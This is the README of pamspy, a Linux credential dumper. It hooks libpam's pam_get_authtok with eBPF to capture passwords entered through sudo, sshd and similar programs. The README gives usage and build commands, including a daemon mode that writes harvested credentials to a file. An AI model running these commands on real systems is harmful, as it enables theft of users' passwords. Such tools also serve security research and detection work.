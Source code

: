 # pamspy -- Credentials Dumper for Linux

`pamspy` leverage eBPF technologies to achieve an equivalent work of [3snake](https://github.com/blendin/3snake).

It will track a particular userland function inside the PAM (Pluggable Authentication Modules) library, used by many critical applications to handle authentication like:
* sudo
* sshd
* passwd
* gnome
* x11
* and many other ...

![Demo](.img/pamspy.gif)

## How to launch?

`pamspy` is built as a static binary without any dependencies, and available on the [release](https://github.com/citronneur/pamspy/releases/) page.

```
Usage: pamspy [OPTION...]
pamspy

Uses eBPF to dump secrets use by PAM (Authentication) module
By hooking the pam_get_authtok function in libpam.so

USAGE: ./pamspy -p $(/usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4) -d /var/log/trace.0

  -d, --daemon=PATH TO OUTPUT CREDENTIALS
                             Start pamspy in daemon mode and output in the file
                             passed as argument
  -p, --path=PATH            Path to the libpam.so file
  -r, --print-headers        Print headers of the program
  -v, --verbose              Verbose mode
  -?, --help                 Give this help list
      --usage                Give a short usage message
  -V, --version              Print program version

Mandatory or optional arguments to long options are also mandatory or optional
for any corresponding short options.

Report bugs to .

```

As `pamspy` rely on libpam, we have to set the path where libpam is installed on your distribution. To find where libpam is installed you can run the following command :

```
> /usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4
/lib/x86_64-linux-gnu/libpam.so.0
```

Once you get the path you can launch `pamspy` :

```
> ./pamspy -p /lib/x86_64-linux-gnu/libpam.so.0
```

An easy way to launch `pamspy` is to use the following command :

```
> ./pamspy -p $(/usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4)
```

`pamspy` can also be started as a daemon by providing an output file where credentials will be written:

```
./pamspy -p $(/usr/sbin/ldconfig -p | grep libpam.so | cut -d ' ' -f4) -d /tmp/credentials
```

## How to build?

To build the static binary, we need third-party program. For eBPF we need `clang` to compile the C code into eBPF CO-RE code.
We also rely on `bpftool` to create a skeleton from ebpf program to include it in our userland program. Then we need also `libelf` to find the correct symbol in libpam.

```
sudo apt install make clang-11 gcc libelf-dev bpftool
```

Then just build!

```
git clone https://github.com/citronneur/pamspy --recursive
cd pamspy/src
make
```

## How does It works?

`pamspy` will load a userland return probe eBPF program to hook the `pam_get_authtok` function from `libpam.so`. 
PAM stands for "Pluggable Authentication Modules", and have a flexible design to manage a different kind of authentication on Linux.

Each time an authentication process tries to check a new user, It will call `pam_get_authtok`, and will be here to dump the content of the critical secrets!

Easy! Enjoy!

## Credits and references

Thanks to @blendin for 3snake tool !!!

